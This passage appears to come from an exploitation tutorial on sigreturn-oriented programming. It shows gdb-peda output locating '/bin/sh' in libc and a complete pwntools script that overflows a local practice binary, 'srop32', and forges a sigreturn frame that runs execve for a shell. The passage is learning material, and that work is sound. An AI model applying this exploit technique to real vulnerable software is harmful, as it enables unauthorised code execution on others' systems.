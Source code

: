 ```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5b02b ("/bin/sh")
gdb-peda$ p 0xf7f5b02b-0xf7e02000
$6 = 0x15902b
```

## **Exploit Code**

```
# Exploit Code
from pwn import *

#context.log_level='debug'  
binary = ELF('./srop32')
p = process(binary.path)
#gdb.attach(p)

p.recvline()
stackAddr = p.recvline().split(' ')[3]
stackAddr = int(stackAddr,16)

#You need to change the value to match the environment you are testing.
libcBase = stackAddr - 0x49020
ksigreturn = libcBase + 0x1d6001
syscall = libcBase + 0x1d6006
binsh = libcBase + 0x15902b

print 'The base address of Libc    : ' + hex(libcBase)
print 'Address of syscall gadget   : ' + hex(syscall)
print 'Address of string "/bin/sh" : ' + hex(binsh)
print 'Address of sigreturn()      : ' + hex(ksigreturn)

exploit = ''
exploit += "x90" * 66
exploit += p32(ksigreturn)  #ret

#Runed a 32bit program in the 64bit operation system.
frame = SigreturnFrame(kernel='amd64')
frame.eax = 0x0b  # execve
frame.ebx = binsh 
frame.esp = syscall
frame.eip = syscall
exploit += str(frame)

#raw_input('1')
p.send(exploit)
p.interactive()  
```
## **Exploit**
